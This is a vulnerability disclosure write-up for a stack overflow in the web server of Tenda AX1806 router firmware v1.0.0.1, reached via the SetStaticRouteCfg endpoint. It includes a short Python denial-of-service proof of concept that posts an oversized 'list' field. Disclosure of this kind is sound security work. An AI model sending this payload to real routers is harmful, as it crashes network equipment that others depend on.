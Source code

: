 ## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the `fromSetRouteStatic `function, which can be accessed via the URL `goform/SetStaticRouteCfg`.

<img src="img/image-20220526202959832.png" alt="image-20220526202959832" style="zoom:50%;" />

In function `FUN_000519b8`, the function `sscanf` is called to split it and copy to stack buffer without checking its length.

<img src="img/image-20220526203041771.png" alt="image-20220526203041771" style="zoom:50%;" />

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"list": b'A'*0x400+b',A,A,A'
}
res = requests.post("http://127.0.0.1/goform/SetStaticRouteCfg", data=data)
print(res.content)
```

<img src="img/image-20220526203258972.png" alt="image-20220526203258972" style="zoom:50%;" />